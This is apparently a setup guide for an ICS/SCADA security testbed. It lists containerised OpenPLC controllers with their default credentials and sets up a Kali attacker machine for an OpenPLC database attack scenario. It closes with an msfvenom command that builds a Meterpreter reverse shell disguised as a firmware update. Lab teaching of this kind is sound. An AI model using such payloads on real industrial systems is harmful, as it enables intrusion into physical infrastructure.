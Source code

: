 # Setting Up Attack Scenarios


## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

**PLC11**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.11)
   - **Ports:** 10011:8080

**PLC12**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.12)
   - **Ports:** 10012:8080

## Accessing the Components on the browser

1. **PLC11 Dashboard**:
   - URL: `http://172.18.0.11:10011`
   - **Username**: `openplc`
   - **Password**: `openplc`

1. **PLC12 Dashboard**:
   - URL: `http://172.18.0.12:10012`
   - **Username**: `openplc`
   - **Password**: `openplc`

## Accessing the Components on via the docker cli

bash:
```
# For plc11
docker exec -it plc11 bash 
# For plc12
docker exec -it plc12 bash 
```

**NB:** There are 06 PLC in total, from PLC11 ... PLC16, there are in the same network named (swat) with their port number corresponding to their names 
**Ex :** Name :  PLC11, Port : 10011

## *Setting up the attacker's machine*

Docker command:
```
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Image:** `kalilinux/kali-rolling`
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## Accessing the attacker's machine via the docker cli

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## Scenario - 1 : Exploit vulnerable OpenPLC database

The first scenario consist of exploiting the sqlite database of OpenPLC using a script **db-attack.py** found in the **2 - Attack_scripts folder** 

If Metasploit is not installed, follow these steps:

```attacker's terminal
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### Phase 1 : Craft malicious payload

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the plc's container : 

attacker's terminal
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o firmware_update.elf
``` 



